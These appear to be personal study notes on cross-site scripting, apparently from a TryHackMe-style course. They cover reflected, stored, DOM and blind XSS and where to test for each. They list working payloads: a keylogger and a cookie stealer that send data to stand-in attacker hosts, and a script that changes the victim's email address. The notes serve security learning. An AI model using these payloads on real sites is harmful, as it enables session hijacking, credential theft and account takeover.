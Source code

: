 XSS filter bypass - [here](https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet)

## POC
alerts and such blocked?  
simple: `console.log("exploit completed)` works

## post exploit payloads
* keylogger - `<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`  
* execute js - `<script></script>`
* business logic - `<script>user.changeEmail('attacker@hacker.thm');</script>`
* Cookies - `</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>`


## types
* reflected - editing parameters to insert malicious code
    - places to check:
        - url file path
        - parameters in url query string
        - http headers
* stored - put into db / hosted on webstite 
    - places to check:
        - comments on blog
        - user profile info
        - web listings
* dom - js execution happens direclty in the browser without any new pages being loaded/data submitted to backend code
    - places to check:
        - code
    - how to test:
        - look in code for places attacker can have control over
            - eg: `window.location.x` perams
        - see how the places are handled and whether values are ever written to web page's dom or pased to unsafe js methods eg: `eval()`
    - dom = programming interface for HTML and XMS docs
        - represents page so taht programs can change doc structure/style/content
    - ex: js gets contents from the window.location.hash peram and writes onto page in the currently being viewed section
* blind - payload gets stored and executed (cant see it being ran)
    - testing - ensure payload has callback (tool: xss hunter express)
    - impact - attacker could make calls to attacker's website, revealing the
    staff portal URL, the staff member's cookies, and even the contents of the
    portal page that is being viewed. 
    - Now the attacker could potentially hijack the staff member's session and have access to the private portal.
    - ex: website contains  contact where you can message a member of staff 
        - not being checked for malicious code
        - messages -> support tickets for staff on priv portal
